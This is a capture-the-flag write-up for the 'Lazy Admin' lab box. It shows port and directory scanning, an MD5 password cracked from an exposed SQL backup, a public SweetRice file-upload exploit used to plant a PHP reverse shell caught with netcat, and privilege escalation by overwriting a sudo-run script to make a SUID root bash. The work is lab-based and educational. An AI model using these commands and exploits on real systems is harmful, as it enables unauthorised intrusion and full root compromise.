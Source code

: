 # Lazy Admin

## NMAP

```
$ sudo nmap -sS -p- 10.10.34.198
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-12 08:19 EDT
Nmap scan report for 10.10.34.198
Host is up (0.061s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 56.13 seconds

$ nmap -sV -p 22,80 10.10.34.198                               

Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-12 08:23 EDT
Nmap scan report for 10.10.34.198
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.16 seconds
```

## Web dir enumeration

```
$ gobuster dir -u http://10.10.34.198 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.34.198
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.34.198/content/]                                                                                
/index.html           (Status: 200) [Size: 11321]
/.html                (Status: 403) [Size: 277]
Progress: 175328 / 175330 (100.00%)
===============================================================
Finished
===============================================================
```

## Sweet Rice

When we go to this content folder we can find a **Sweet Rice notice**

We can go to the Sweet Rice github and look at the directory layout of this framework.

We can quickly find a mysql backup under content/inc/mysql_backup/.

## SQL Backup

<img src="images/sql.png">

We can see a username and a hashed password. The hash is md5.

Using CrackStation we can get the password. It is ```Password123```

## Exploits for SweetRice

We can find the sweet rice version on content/inc/latest.txt ```1.5.1```. Looking for exploits for this version we can find one about remote file inclusion.

https://www.exploit-db.com/exploits/40716

### Uploading a reverse shell.

```
$ python3 40716.py

+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |                                                    
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : 10.10.34.198/content
Enter Username : manager 
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : php-reverse-shell.php5
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.34.198/content/attachment/php-reverse-shell.php5
```

You can also add the file manually in the media center.

## Rev shell

```
$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.18.22.237] from (UNKNOWN) [10.10.34.198] 46638
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 16:20:31 up  1:12,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Get a TTY shell

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@THM-Chal:/$ 
```

## MySQL

```
www-data@THM-Chal:/home/itguy$ cat mysql_login.txt
cat mysql_login.txt
rice:randompass
```

```
www-data@THM-Chal:/var/lib$ mysql -u rice -p
mysql -u rice -p
Enter password: randompass

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 58
Server version: 5.7.28-0ubuntu0.16.04.2 (Ubuntu)

Copyright (c) 2000, 2019, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| website            |
+--------------------+
5 rows in set (0.01 sec)


mysql> select database();
select database();
+------------+
| database() |
+------------+
| NULL       |
+------------+
1 row in set (0.00 sec)

mysql> use website;
use website;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> 
```

This will lead to nowhere I think.

## Priv Esc

```
www-data@THM-Chal:/home/itguy$ ls -l backup.pl
ls -l backup.pl
-rw-r--r-x 1 root root 47 Nov 29  2019 backup.pl
www-data@THM-Chal:/home/itguy$ cat backup.pl
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

```
www-data@THM-Chal:/home$ ls -l /etc/copy.sh
ls -l /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

```
www-data@THM-Chal:/home$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
We can run "/urs/bin/perl /home/itguy/backup.pl" without sudo password

Changing copy.sh


```
echo "cp /bin/bash /tmp/mal_bash | chmod +xs /tmp/mal_bash" > /etc/copy.sh
```

```

$ sudo /usr/bin/perl /home/itguy/backup.pl

$ ls -l /tmp
total 1092
-rwsr-sr-x 1 root root 1109564 Oct 12 17:58 mal_bash
drwx------ 3 root root    4096 Oct 12 17:55 systemd-private-fadb1cf574b34f5eb58f4982b05d8aca-colord.service-TXjX0s
drwx------ 3 root root    4096 Oct 12 17:55 systemd-private-fadb1cf574b34f5eb58f4982b05d8aca-rtkit-daemon.service-xFVacy
```

Run it and then run the mal_bash with -p.
```
$ ./mal_bash -p
whoami
root
```